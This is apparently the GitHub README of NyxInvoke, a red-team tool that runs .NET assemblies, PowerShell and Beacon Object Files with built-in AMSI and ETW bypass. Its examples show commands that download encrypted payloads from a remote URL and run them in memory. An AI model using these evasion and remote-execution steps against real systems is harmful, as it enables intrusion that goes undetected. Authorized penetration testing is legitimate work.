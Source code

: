 # NyxInvoke

NyxInvoke is a rust based command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS]

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```
2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help                                Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS]

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help                                Print help
```

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\clr_aes.key --iv C:\path\to\clr_aes.iv --assembly C:\path\to\clr_data.enc --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

2. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key bof_aes.key --iv bof_aes.iv --bof bof_data.enc --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that List user permissions for the specified file, wildcards supported.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\Windows\system32\cmd.exe"
     ```


## Building

To build NyxInvoke

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc
```
or with compiled-in CLR or BOF data
```
cargo +nightly build --release --features=compiled_bof,compiled_clr
```

## Screenshot

- Remote CLR Executaion 

![Screenshot 2024-09-17 164409](https://github.com/user-attachments/assets/ba9b9200-226b-4179-a442-558be35b1dd9)

- Compiled CLR Executaion 

![Screenshot 2024-09-17 164446](https://github.com/user-attachments/assets/956d0a70-42cf-443c-8302-9cae967d7624)

- Local BOF Executaion 

![Screenshot 2024-09-17 164521](https://github.com/user-attachments/assets/9c992be6-902a-46b5-bafd-35909e7080a2)

- Compiled BOF Executaion 

![Screenshot 2024-09-17 164737](https://github.com/user-attachments/assets/a0b49a19-5657-47f6-ad15-92376b405b77)

- Powershell Command Executaion 

![Screenshot 2024-09-17 171636](https://github.com/user-attachments/assets/296bedfd-4bb9-4905-8391-c456fc591fe3)

- Powershell Script Executaion 

![Screenshot 2024-09-17 172028](https://github.com/user-attachments/assets/d055cb24-c8f0-4df7-b358-12a061f33c50)


## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

